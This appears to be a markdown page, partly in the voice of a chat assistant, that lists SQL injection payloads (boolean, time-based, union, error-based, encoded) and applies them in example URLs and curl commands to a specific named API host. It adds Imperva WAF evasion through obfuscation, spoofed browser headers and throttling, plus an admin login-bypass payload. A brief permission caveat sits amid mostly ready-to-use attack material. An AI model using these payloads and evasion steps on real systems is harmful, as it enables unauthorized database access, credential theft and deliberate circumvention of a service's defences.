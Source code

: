 To test for SQL injection vulnerabilities by appending common payloads to the URL, you can try the following common SQL injection payloads. Each one should be appended as a query parameter or applied in the appropriate field of the API request.

Here is a list of SQL injection payloads to test for different scenarios:
1. Basic SQL Injection

' OR '1'='1' --
' OR 1=1 --
' OR 'x'='x' --
' OR 1=1# 
' OR 1=1/* 

2. Time-Based Blind SQL Injection
(Payloads to test for blind injection by introducing a delay)

' OR IF(1=1, SLEEP(5), 0) --
' OR IF(1=2, SLEEP(5), 0) --
' OR 1=1 AND SLEEP(5) --
' OR 1=2 AND SLEEP(5) --

3. Union-based SQL Injection
(Common to test for union queries that can be used to retrieve data from the database)

' UNION SELECT NULL, NULL, NULL --
' UNION SELECT 1, 2, 3 --
' UNION SELECT username, password FROM users --
' UNION SELECT table_name, column_name FROM information_schema.columns --

4. Error-Based SQL Injection
(Payloads to trigger errors in the SQL server and potentially reveal useful information)

' AND 1=1 --
' AND 1=2 --
' ' AND 1=1 --
' ' AND 1=2 --

5. Comment-Based SQL Injection
(Injecting comments to bypass query logic)

' -- 
' #
' /* 

6. Multiple Payload Variations

' OR 'a'='a' --
' AND 1=1 --
' AND 1=2 --
' OR 1=1 --
' AND 'a'='a' --
' AND 'a'='b' --
' UNION SELECT NULL, NULL, NULL --
' UNION SELECT 1, 2, 3 --
' UNION SELECT username, password FROM users --
' OR EXISTS(SELECT * FROM users WHERE username='admin' AND password='password') --

7. SQL Injection with Hex Encoding
(Sometimes using hex encoding can bypass filters)

%27%20OR%20%271%27%3D%271%27%20--
%27%20OR%201%3D1%20--
%27%20OR%20%27x%27%3D%27x%27%20--

8. Testing for Specific Database Error Messages

' OR 1=1 --
' OR 1=1 --
' AND 1=1 --
' OR '1'='1' --

## Example URLs for Testing
If the API endpoint looks like https://api.eu.app.varonis.io/resource, you can append these payloads to test them:

    Basic SQL Injection:

https://api.eu.app.varonis.io/resource?param=' OR '1'='1' --
https://api.eu.app.varonis.io/resource?param=' OR 1=1 --

Union-based SQL Injection:

https://api.eu.app.varonis.io/resource?param=' UNION SELECT NULL, NULL, NULL --
https://api.eu.app.varonis.io/resource?param=' UNION SELECT 1, 2, 3 --

Error-Based SQL Injection:

https://api.eu.app.varonis.io/resource?param=' AND 1=2 --
https://api.eu.app.varonis.io/resource?param=' AND 1=1 --

Time-Based Blind Injection:

    https://api.eu.app.varonis.io/resource?param=' OR IF(1=1, SLEEP(5), 0) --
    https://api.eu.app.varonis.io/resource?param=' OR IF(1=2, SLEEP(5), 0) --

Important Notes

    Testing Safely: Only test on endpoints you have permission to assess. Testing without authorization is illegal and unethical.
    Monitor for Errors: If error messages or unexpected behavior are encountered, they can indicate potential vulnerabilities.
    Response Behavior: Watch for long response times, changes in output, or unexpected results that could suggest the system is processing the SQL injection query.

If you need further help with setting up these tests or analyzing responses, feel free to ask!



## list of SQL injection payloads:
' OR '1'='1' --
' OR 1=1 --
' OR 'x'='x' --
' OR 1=1# 
' OR 1=1/* 
' OR IF(1=1, SLEEP(5), 0) --
' OR IF(1=2, SLEEP(5), 0) --
' OR 1=1 AND SLEEP(5) --
' OR 1=2 AND SLEEP(5) --
' UNION SELECT NULL, NULL, NULL --
' UNION SELECT 1, 2, 3 --
' UNION SELECT username, password FROM users --
' UNION SELECT table_name, column_name FROM information_schema.columns --
' AND 1=1 --
' AND 1=2 --
' ' AND 1=1 --
' ' AND 1=2 --
' -- 
' #
' /* 
'/**/OR/**/1=1--
' OR 'a'='a' --
' AND 1=1 --
' AND 1=2 --
' OR 1=1 --
' AND 'a'='a' --
' AND 'a'='b' --
' UNION SELECT NULL, NULL, NULL --
' UNION SELECT 1, 2, 3 --
' UNION SELECT username, password FROM users --
' OR EXISTS(SELECT * FROM users WHERE username='admin' AND password='password') --
%27%20OR%20%271%27%3D%271%27%20--
%27%20OR%201%3D1%20--
%27%20OR%20%27x%27%3D%27x%27%20--
%27%20OR%20%271%27%3D%271%27%20--
' OR 1=1 --
' OR 1=1 --
' AND 1=1 --
' OR '1'='1' --
' Or '1'='1' --
' oR '1'='1' --
%27%20OR%20%271%27%3D%271%27%20--
%2527%2520OR%25201%253D1%2520--
'/*comment*/OR/*comment*/'1'='1'--
' OR '1'='1' AND 'a'+'b'='ab'--
' AND 1=1 --
' || '1'='1' --
' OR IF(1=1, SLEEP(5), 0)--
' OR BENCHMARK(1000000, MD5('test'))--


# WAF Blocking Your Tests?
Imperva WAF uses:
    Signature-based Detection: Identifies known SQL injection patterns.
    Anomaly Detection: Tracks unusual activity or traffic patterns.
    Rate Limiting: Restricts requests if they exceed a defined threshold.
    IP Reputation and Blacklisting: Blocks requests from known malicious IP addresses.
    Behavioral Analysis: Detects unusual API usage.

- Bypassing WAF Responsibly
1. Obfuscate SQL Injection Payloads
WAFs look for specific patterns; obfuscating payloads might bypass detection:
    Case Alteration:
' Or '1'='1' --
' oR '1'='1' --
URL Encoding:
%27%20OR%20%271%27%3D%271%27%20--
Double Encoding:
%2527%2520OR%25201%253D1%2520--
Inline Comments:
    '/*comment*/OR/*comment*/'1'='1'--

2. Modify Query Structure
Try payloads that alter query structures in less predictable ways:
    Using string concatenation:
' OR '1'='1' AND 'a'+'b'='ab'--
Testing alternate logical operators:
    ' AND 1=1 --
    ' || '1'='1' --

3. Test WAF Behavior with Time-Based Payloads
Imperva WAF might block specific payloads but may not detect delayed responses:
    Check response times to infer blind SQL injection:
    ' OR IF(1=1, SLEEP(5), 0)--
    ' OR BENCHMARK(1000000, MD5('test'))--

4. Use Legitimate Traffic Headers
Add common headers to make your traffic appear legitimate:
curl -I -H "User-Agent: Mozilla/5.0" \
     -H "Referer: https://api.eu.app.varonis.io/" \
     -H "Accept: application/json" \
     "https://api.eu.app.varonis.io/resource?param=' OR '1'='1' --"

5. Slow Down Requests
Throttle the request rate to avoid triggering the WAF rate-limiting mechanism:
sleep 2 && curl "https://api.eu.app.varonis.io/resource?param=' OR '1'='1' --"

# Bypassing WAF List
' Or '1'='1' --
' oR '1'='1' --
%27%20OR%20%271%27%3D%271%27%20--
%2527%2520OR%25201%253D1%2520--
'/*comment*/OR/*comment*/'1'='1'--
' OR '1'='1' AND 'a'+'b'='ab'--
' AND 1=1 --
' || '1'='1' --
' OR IF(1=1, SLEEP(5), 0)--
' OR BENCHMARK(1000000, MD5('test'))--



## Username Password Bypass
username: ' UNION SELECT 'pass' AS password FROM admins WHERE '1' = '1
password: pass

##
